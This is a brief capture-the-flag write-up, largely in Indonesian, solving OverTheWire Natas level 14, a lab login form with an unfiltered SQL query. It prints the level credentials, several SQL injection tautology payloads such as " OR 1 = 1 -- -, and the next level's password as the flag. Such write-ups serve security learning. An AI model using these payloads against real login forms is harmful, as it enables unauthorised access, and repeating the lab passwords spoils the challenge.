 ```yaml
---
layout: default
test_level14
name_file: level
---
```


{% include level-section.html %}

# soal
Username: natas14 \
URL:      http://natas14.natas.labs.overthewire.org

# solve
- login with cred natas14:z3UYcr4v4uBpeX8f7EZbMHlzK4UR2XtQ
- di soal kali ini terdapat sebuah form login username admin disini ketika saya coba cek sourcenya terdapat connect database hanya saja tidak ada filternya
  ![alt text](docs/images/image-35.png)
  ```bash
  SELECT * FROM USERS WHERE username = '<input>' AND password = '<input>';
  # pas dicoba " dia berhasil
  SELECT * FROM USERS WHERE username = '"<input>' AND password = '<input>';

  "admin
  " OR "1" = "1
  " OR "test" = "test
  ```
- saya mencoba memasukan sqli manual dengan wordlist ini
  - https://github.com/payloadbox/sql-injection-payload-list
- waktu saya mencoba yang ini berhasil
  ![alt text](docs/images/image-36.png)
  ![alt text](docs/images/image-37.png)
  ```bash
  " OR 1 = 1 -- -
  ```
- output
  ```bash
  # Successful login! The password for natas15 is SdqIqBsFcz3yotlNYErZSZwblkm0lrvx
  ```

# flag
SdqIqBsFcz3yotlNYErZSZwblkm0lrvx